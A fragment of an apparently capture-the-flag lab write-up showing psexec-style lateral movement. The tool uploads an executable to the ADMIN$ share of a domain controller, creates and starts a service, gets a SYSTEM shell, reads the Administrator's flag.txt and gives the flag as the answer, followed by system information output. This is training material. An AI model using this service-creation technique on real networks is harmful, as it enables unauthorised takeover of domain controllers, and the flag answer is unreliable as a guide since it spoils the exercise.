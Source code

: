 [*] Requesting shares on 172.16.6.3.....

[*] Found writable share ADMIN$

[*] Uploading file uogrcjoG.exe

[*] Opening SVCManager on 172.16.6.3.....

[*] Creating service MrRT on 172.16.6.3.....

[*] Starting service MrRT.....

[!] Press help for extra shell commands

​

Microsoft Windows [Version 10.0.17763.107]

(c) 2018 Microsoft Corporation. All rights reserved.

​

C:\Windows\system32> hostname

DC01

​

C:\Windows\system32> whoami

nt authority\system

​

C:\Windows\system32> dir C:\Users\Administrator\Desktop

Volume in drive C has no label.

Volume Serial Number is DA7F-3F25

​

Directory of C:\Users\Administrator\Desktop

​

04/11/2022 06:16 PM <DIR> .

04/11/2022 06:16 PM <DIR> ..

04/11/2022 06:17 PM 19 flag.txt

1 File(s) 19 bytes

2 Dir(s) 33,623,846,912 bytes free

​

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt

r3plicat1on_m@st3r!

**Answer:** `**r3plicat1on_m@st3r!**`

## 


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0
